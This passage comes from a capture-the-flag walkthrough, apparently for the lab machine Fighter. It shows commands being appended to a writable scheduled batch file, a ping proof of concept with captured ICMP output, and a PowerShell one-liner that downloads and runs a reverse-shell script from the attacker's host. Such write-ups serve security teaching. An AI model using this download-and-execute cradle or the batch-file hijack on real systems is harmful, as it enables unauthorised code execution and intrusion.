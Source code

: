         Directory: C:\users\decoder
    
    Mode                LastWriteTime     Length Name                              
    ----                -------------     ------ ----                              
    -a---        23/04/2022     23:26          0 clean.bat 
    

In some of the [docs](https://ss64.com/nt/copy.html), it show this is the
command to create an empty file:

> Create an empty (zero byte) file:
>  
>  
>     COPY NUL EmptyFile.txt
>  

It must be using append permissions to do that.

#### Add POC

With the `exit` gone, I can now add to the payload. I lost a lot of time
playing with issues where PowerShell was adding weird characters to the file
and it wouldn’t run as a `.bat`. The safest way to do this is with `cmd`,
making sure that both the `echo` and the redirection are within `cmd`:

    
    
    PS C:\users\decoder> cmd /c "echo ping 10.10.14.6 >> clean.bat"
    

The next time the minute rolled on Fighter, ICMP packets arrive at my host:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:30:58.618713 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 69, length 40
    21:30:58.618768 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 69, length 40
    21:30:59.634045 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 70, length 40
    21:30:59.634080 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 70, length 40
    21:31:00.649225 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 71, length 40
    21:31:00.649255 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 71, length 40
    21:31:01.667140 IP 10.10.10.72 > 10.10.14.6: ICMP echo request, id 1, seq 72, length 40
    21:31:01.667176 IP 10.10.14.6 > 10.10.10.72: ICMP echo reply, id 1, seq 72, length 40
    

#### Reverse Shell

I’ll use the same reverse shell from my webserver, `REV.PS1`. I’ll start by
running the `echo` without the redirection to make sure it looks like I want:

    
    
    PS C:\users\decoder> cmd /c "echo powershell iex(new-object net.webclient).downloadstring('http://10.10.14.6/REV.PS1')"
    powershell iex(new-object net.webclient).downloadstring('http://10.10.14.6/REV.PS1')
    

Now I’ll add it to `clean.bat`:
